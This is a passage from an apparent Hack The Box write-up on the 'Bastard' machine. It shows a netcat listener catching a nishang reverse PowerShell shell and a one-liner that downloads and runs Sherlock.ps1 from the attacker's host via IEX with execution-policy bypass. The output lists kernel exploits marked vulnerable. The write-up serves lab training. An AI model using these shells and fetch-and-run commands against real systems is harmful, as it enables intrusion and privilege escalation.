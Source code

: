Browse to our webshell and use a `nishang` shell to get access.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/bastard/shell.gif){: .align-center}

```bash
kali@kali:~/Desktop/htb/bastard$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from bastard.htb [10.10.10.9] 49173
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>whoami
nt authority\iusr
```

## Root Shell

Running `Sherlock.ps1` to enumerate kernel issues shows that we have few possible exploits.

```shell
PS C:\inetpub\drupal-7.54> powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.15:8000/Sherlock.ps1');Find-AllVulns"


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable
```